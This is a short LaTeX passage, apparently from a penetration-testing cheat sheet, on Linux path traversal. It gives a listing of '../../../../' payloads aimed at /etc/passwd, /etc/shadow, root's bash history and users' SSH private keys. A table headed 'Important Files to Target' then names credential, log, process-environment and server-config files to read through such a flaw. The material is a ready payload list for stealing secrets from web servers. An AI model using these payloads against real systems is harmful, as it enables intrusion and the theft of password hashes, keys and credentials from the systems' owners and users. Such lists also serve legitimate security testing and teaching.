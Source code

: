 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Linux Path Traversal}

\begin{lstlisting}
../../../../etc/passwd
../../../../etc/shadow
../../../../root/.bash_history
../../../../var/log/apache2/access.log
../../../../home/user/.ssh/id_rsa
../../../../proc/self/environ
../../../../proc/version
\end{lstlisting}

\section{Important Files to Target}

\subsection{Linux Critical Files}

\begin{longtable}{|l|l|}
\hline
\textbf{File} & \textbf{Purpose} \\
\hline
/etc/passwd & User accounts \\
\hline
/etc/shadow & Password hashes (requires root) \\
\hline
/etc/hosts & DNS resolution \\
\hline
/etc/hostname & System name \\
\hline
/etc/issue & OS identification \\
\hline
/proc/version & Kernel version \\
\hline
/proc/self/environ & Environment variables \\
\hline
/proc/self/cmdline & Running command line \\
\hline
/proc/self/fd/* & File descriptors \\
\hline
/proc/self/maps & Memory mapping \\
\hline
/var/log/apache2/access.log & Access logs \\
\hline
/var/log/nginx/access.log & Nginx logs \\
\hline
/var/log/auth.log & Authentication logs \\
\hline
/home/*/.bash\_history & Command history \\
\hline
/home/*/.ssh/id\_rsa & SSH private keys \\
\hline
/root/.ssh/id\_rsa & Root SSH keys \\
\hline
/etc/nginx/nginx.conf & Nginx config \\
\hline
/etc/apache2/apache2.conf & Apache config \\
\hline
/etc/mysql/my.cnf & MySQL config \\
\hline
/etc/php/*/php.ini & PHP config \\
\hline
\end{longtable}
\end{document}
